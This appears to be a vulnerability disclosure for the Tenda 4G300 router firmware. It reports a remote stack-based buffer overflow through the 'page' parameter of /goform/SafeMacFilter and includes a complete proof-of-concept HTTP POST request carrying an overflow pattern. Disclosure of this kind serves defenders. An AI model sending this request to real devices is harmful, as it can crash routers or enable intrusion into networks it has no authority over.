


### Overview

- Vendor : Tenda
- Product : 4G300
- Version : US_4G300V1.0Mt_V1.01.42_CN_TDC01
- Firmware download address : https://www.tenda.com.cn/prod/api/data/center/download/541288615886917/2227

### Vulnerability details

A vulnerability was determined in Tenda 4G300 V1.0Mt_V1.01.42_CN_TDC01. This impacts the function sub_427C3C of the file httpd. This manipulation of the argument page causes stack-based buffer overflow. The attack is possible to be carried out remotely. 



### PoC

```
POST /goform/SafeMacFilter HTTP/1.1
Host: 192.168.0.2
Content-Length: 11419
Cache-Control: max-age=0
Origin: http://192.168.0.2
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.2/firewall_mac.asp
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: Tenda:admin:language=zh-cn
Connection: close

enablemode=on&default_mode=1&check=1&entry=&page=aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaa&op=
```

